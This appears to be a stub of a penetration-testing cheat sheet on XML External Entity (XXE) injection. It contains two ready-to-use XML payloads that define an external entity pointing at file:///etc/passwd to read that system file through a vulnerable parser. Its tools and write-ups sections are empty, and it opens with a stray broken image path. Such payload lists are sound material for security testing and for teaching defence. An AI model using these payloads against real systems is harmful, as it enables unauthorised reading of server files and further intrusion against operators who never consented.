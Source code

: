 # XXE Injection

## Common Payloads
	<?xml version="1.0"?>
	  <!DOCTYPE data [
	  <!ELEMENT data (#ANY)>
	  <!ENTITY file SYSTEM "file:///etc/passwd">
	  ]>
	  <data>&file;</data>

	<?xml version="1.0" encoding="ISO-8859-1"?>
  	  <!DOCTYPE foo [  
  	  <!ELEMENT foo ANY >
  	  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

## Tools

## Resources & Write Ups
